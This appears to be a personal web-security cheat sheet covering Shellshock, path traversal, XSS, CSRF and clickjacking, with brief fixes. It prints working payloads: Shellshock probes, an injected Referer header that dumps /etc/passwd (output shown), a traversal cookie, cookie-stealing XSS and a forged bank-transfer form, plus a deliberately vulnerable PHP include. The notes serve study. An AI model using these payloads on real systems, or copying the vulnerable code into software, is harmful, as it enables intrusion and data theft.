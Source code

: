 Security
-

[map](http://map.norsecorp.com/)
[xss](https://www.openbugbounty.org/)
[vulnerabilities](http://cve.mitre.org/)
[twitter](https://twitter.com/MisterRobot245/following/)

#### Shellshock (bashdoor, CVE-2014-6271)

````
# CVE-2014-6271
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"

# CVE-2014-7169
env X='() { (a)=>\' bash -c "echo date"; cat echo

# CVE-2014-7186
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' ||
echo "CVE-2014-7186 vulnerable, redir_stack"

# CVE-2014-7187
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
````

````
GET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)

HTTP/1.0 200 OK
Server: nginx/1.2.1
Date: Fri, 26 Sep 2014 11:22:43 GMT
Content-Type: text/html
NS: root:x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/bin/sh
bin: x:2:2:bin:/bin:/bin/sh
sys: x:3:3:sys:/dev:/bin/sh
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/bin/sh
man: x:6:12:man:/var/cache/man:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
mail: x:8:8:mail:/var/mail:/bin/sh
news: x:9:9:news:/var/spool/news:/bin/sh
uucp: x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy: x:13:13:proxy:/bin:/bin/sh
www-data: x:33:33:www-data:/var/www:/bin/sh
backup: x:34:34:backup:/var/backups:/bin/sh
list: x:38:38:Mailing List Manager:/var/list:/bin/sh
irc: x:39:39:ircd:/var/run/ircd:/bin/sh
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid: x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim: x:101:103::/var/spool/exim4:/bin/false
messagebus: x:102:106::/var/run/dbus:/bin/false
avahi: x:103:107:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
sshd: x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql: x:105:111:MySQL Server,,,:/nonexistent:/bin/false
Connection: close
````

#### Man-In-The-Middle

#### Phishing

#### DNS hijacking

#### DDos (Denial-of-service attack)

A distributed DDoS is a cyber-attack where the perpetrator uses more than one unique IP address,
often thousands of them.

Distributed autoscale systems may try to cope with DDoS.

#### Directory (path) traversal attack

AKA: ../ (dot dot slash) attack.
AIM: gain unauthorized access to the file system.

It is exploiting insufficient security validation / sanitization of user-supplied input file names.

````php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE']))
   $template = $_COOKIE['TEMPLATE'];
include ("/home/users/phpguru/templates/" . $template);
````
````
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
````

FIX: Query string is usually URI decoded before use.

## Web Application Security Risks:

#### A1 Injection

#### Cross-Site Scripting (XSS)

Occur when:
data enters through an untrusted source;
dynamic content validation.

Categories: stored (database) and reflected (response includes some malicious input).

````
<b onmouseover=alert('Wufff!')>click me!</b>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
// http://testsite.test/<script>alert("TEST");</script>
?>
````

FIX:

Filter input escape output.

Use `.innerText` instead of `.innerHtml`
The use of `.innerText` will prevent most XSS problems as it will automatically encode the text.

#### Cross-Site Request Forgery (CSRF)

AIM: Force end user to execute unwanted actions (submitting a malicious request)
on a web application in which they're currently authenticated.
Perform action on the victim's behalf.

````
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>

<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
````

FIS: CORS (if browser support CORS) or CSRF token.

#### Using Components with Known Vulnerabilities

#### ~~Clickjacking (UI redress attack)~~

The hacker can only send a single click.

For example, imagine an attacker who builds a web site that has a button on it that says "click here for a free iPod".
However, on top of that web page, the attacker has loaded an iframe with your mail account,
and lined up exactly the "delete all messages" button directly on top of the "free iPod" button.

FIX: Header `X-Frame-Options: DENY`.

#### ~~JSON hijacking~~

In early versions of browsers the JSON file could be loaded as a normal script.
